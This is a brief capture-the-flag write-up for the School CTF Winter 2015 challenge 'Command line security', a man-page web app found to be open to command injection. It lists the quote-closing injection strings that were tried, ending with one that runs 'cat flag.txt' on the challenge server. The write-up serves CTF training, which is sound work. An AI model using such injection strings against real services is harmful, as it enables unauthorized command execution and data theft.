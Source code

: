# School CTF Winter 2015: Command line security

**Category:** Exploit
**Points:** 300
**Solves:** 
**Description:**

> Famous junior pentester Johnny Droptables is still improving his security skills. Unfortunately it's not always harmless for others.
> 
> 
> Here's a message he has posted on the site with short manuals for linux commands:
> 
> 
> Lulz always thought linux users r good enough in sevurity, but u did it so wr00ng :D Read ur manuals and fix it asap before some chi1d dont break it ffs!
> 
> <http://sibears.ru:10001/>
> 
> 
> <http://sibears.ru:12001/>
> 
> 
> <http://sibears.ru:13001/>


## Write-up

<div><h3>Command line security</h3><p>The hardest part is to determine that it is the <a href="https://www.owasp.org/index.php/Command_Injection">CLI injection</a>. Then we just try:</p>
<ul>
<li><code>ls</code> -- just man</li>
<li><code>; ls</code> -- no success</li>
<li>try to close <code>"</code>: <code>"; ls;"</code> -- sucess</li>
</ul>
<p>Now just enter <code>"; cat flag.txt; "</code></p></div>

## Other write-ups and resources

* none yet

